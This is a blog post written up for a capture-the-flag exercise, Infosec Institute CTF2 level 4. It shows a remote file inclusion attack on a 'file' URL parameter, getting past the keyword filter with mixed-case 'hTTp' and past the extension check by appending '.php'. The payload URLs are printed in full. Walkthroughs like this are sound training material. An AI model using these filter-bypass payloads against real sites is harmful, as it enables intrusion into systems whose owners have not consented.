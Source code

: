 ```yaml
---
layout: post
title: Infosec Institute CTF2 Practical Web Hacking Level 4
category: Web
tags: infosec
---
```


**Vulnerability** A4 Insecure Direct Object References
**Description:**

![screen]({{site.url}}/assets/Screen Shot 2015-07-17 at 1.42.57 AM.png)

## Write-up

For almost all levels I will be using Burpsuite. Burpsuite is an interception proxy that lets us modify the HTTP request
 / response by intercepting the data between the browser and the web server.
 
This time we are presented with a web page that has 3 links, 'Bio', 'Clients' and 'About'. Each link embeds a text file into
the page, 'file1.txt', 'file2.txt' and 'file3.txt' respectively. The url parameter is 'file' with one of the txt filenames as
argument.

{% highlight text linenos %}
http://ctf.infosecinstitute.com/ctf2/exercises/ex4.php?file=file1.txt
http://ctf.infosecinstitute.com/ctf2/exercises/ex4.php?file=file2.txt
http://ctf.infosecinstitute.com/ctf2/exercises/ex4.php?file=file3.txt
{% endhighlight %}

Lets try substituting the inserted text file with an php file located in http://infosecinstitute.com by using the
following url

{% highlight text %}
http://ctf.infosecinstitute.com/ctf2/exercises/ex4.php?file=http://infosecinstitute.com/index.php
{% endhighlight %}

Unfortunately, we hit a filter.

![screen1]({{site.url}}/assets/Screen Shot 2015-07-17 at 2.00.10 AM.png)

We can bypass it by using some capital characters in the 'http' keyword like so

{% highlight text %}
http://ctf.infosecinstitute.com/ctf2/exercises/ex4.php?file=hTTp://infosecinstitute.com/index.php
{% endhighlight %}

It looks like the filter was not case-insensitive and we were able to bypass it however,
now it doesn't like the file extension.

![screen2]({{site.url}}/assets/Screen Shot 2015-07-17 at 2.04.32 AM.png)

One trick to circumvent this is to insert a null byte (%00 url encoded), but this time it did not work.
After some trial and error I saw the second Hint stating that there's a regular-expression restriction,
so I changed the filename from index.php to 'file1.txt' with '.php' extension to successfully complete the level.

{% highlight text %}
http://ctf.infosecinstitute.com/ctf2/exercises/ex4.php?file=hTTp://infosecinstitute.com/file1.txt.php
{% endhighlight %}

![screen2]({{site.url}}/assets/Screen Shot 2015-07-17 at 2.13.07 AM.png)

If I have to guess, their regular-expression restriction could be looking for the 3 'permitted' filenames, 'file1.txt',
'file2.txt' and 'file3.txt' when loading a file into the page.

## Links

* <http://ctf.infosecinstitute.com/ctf2/exercises/ex4.php>
